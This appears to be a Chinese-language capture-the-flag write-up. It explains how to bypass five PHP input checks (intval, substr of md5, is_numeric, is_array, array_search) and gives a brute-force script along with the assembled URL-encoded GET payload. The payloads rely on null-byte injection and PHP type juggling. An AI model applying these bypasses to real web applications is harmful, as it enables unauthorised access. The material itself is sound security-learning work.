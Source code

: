 总共五个绕过，五个函数的特性如下：

**intval()**  函数获取变量的整数值，因为这里由strlen限制，所以可以用 科学计数法：1e9  绕过。平时的绕过操作可参考如下：

https://blog.csdn.net/qq_61778128/article/details/122588316

**substr()**  函数是把函数中的字符串赋到另一个变量或者其它的什么里边去，例如：

```
<?php
echo substr("Hello world",-11,11)//这里表示起始位置，和python的元组左右平移差不多意思
?>
```

因为题目的 substr(md5($b),-6,6)) 后边的-6,6就是唬人的东西，所以穷举md5的脚本如下：

```
for($i = 1;$i <= 100000;$i++){
    if('8b184b' === substr(md5($i),-6,6)){
        echo $i;
    }
}
```

**is_numeric()** 函数用于检测变量是否为数字或数字字符串，返回值是boolean。可通过%00来绕过，示例payload如下：

```
c={"m":"9999%00"}
```

**is_array()** 函数用于检测变量是否是一个数组，返回值也是boolean。这里检查的变量是 c 里边的 n

```
c={"m":"9999%00","n":[[1]]}
```

**array_search()** 函数在数组中搜索某个键值，并返回对应的键名。

这里有等号的说法：

‘=’，‘==’，‘===’
一个等于是赋值，两个等于是将两个变量转相同的类型再比较，三个等于先比较变量类型是否相同再比较值。

该函数的绕过思路是直接把要检测的字符串变成不符合类型的情况，比如“admin”字符接受到了double类型或者int类型，这样子就不会触发函数的搜索形式。

payload如下：

```
c={"m":"9999%00","n":[[0,2],0]}//变成了int类型的数组
```

最后将所有payload进行组合，get类型表单内多个参数的构造用&连接。

```
?a=1e9&&b=53724&&c={"m":"9999%00","n":[[0,2],0]}
```

最后url编码有花括号的部分，再用hackbar执行

```
?a=1e9&b=53724&c=%7B%22m%22%3A%229999%2500%22%2C%22n%22%3A%5B%5B0%2C2%5D%2C0%5D%7D
```

